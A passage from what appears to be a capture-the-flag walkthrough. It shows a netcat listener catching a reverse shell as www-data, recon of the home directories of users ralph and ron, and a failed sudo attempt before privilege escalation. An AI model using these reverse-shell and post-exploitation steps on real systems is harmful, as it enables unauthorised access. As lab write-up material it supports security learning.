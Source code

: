
## Step 7: Getting the Reverse Shell

Listen for the shell connection:

```bash
nc -lvnp 1234
```

Once connected, commands like:

```bash
whoami
ls
```

should work, and you'll see:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
---
# Initial Recon & Attempted Navigation

```bash
$ cd home
$ ls
ralph
ron

$ cd ralph
/bin/sh: 7: cd: can't cd to ralph

$ cd ron
/bin/sh: 8: cd: can't cd to ron

$ ls ralph
ls: cannot open directory 'ralph': Permission denied
```

> **Note:** Both user directories exist but are inaccessible due to permissions.

---

# Trying to Use `sudo`

```bash
$ sudo -l
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
sudo: a password is required
```

> **Ouch!** No `sudo` without a password and no terminal to prompt for it. Time to escalate another way.

---
